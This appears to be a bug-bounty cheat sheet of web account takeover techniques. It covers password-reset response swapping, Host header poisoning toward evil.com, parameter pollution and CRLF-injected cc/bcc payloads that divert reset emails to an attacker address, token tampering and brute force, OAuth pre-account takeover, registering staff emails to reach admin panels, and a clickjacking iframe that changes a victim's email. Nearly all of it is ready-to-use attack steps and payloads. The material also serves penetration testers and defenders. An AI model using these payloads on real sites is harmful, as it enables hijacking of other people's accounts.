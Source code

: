 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host
X-Forwarded-For
Referer
Origin
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

```
victim@mail.tld%0d%0acc:attacker@mail.tld
```

```
victim@mail.tld%0d%0abcc:attacker@mail.tld
```

```
email=victim@email.tld%20email=attacker@email.tld
```

```
email=victim@email.tld|email=attacker@email.tld
```

```
email="victim@mail.tld",email="attacker@mail.tld"
```

```
email=victim@email.tld:attacker@email.tld
```

```
{"email":["victim@email.tld","atracker@email.tld"]}
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```
### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
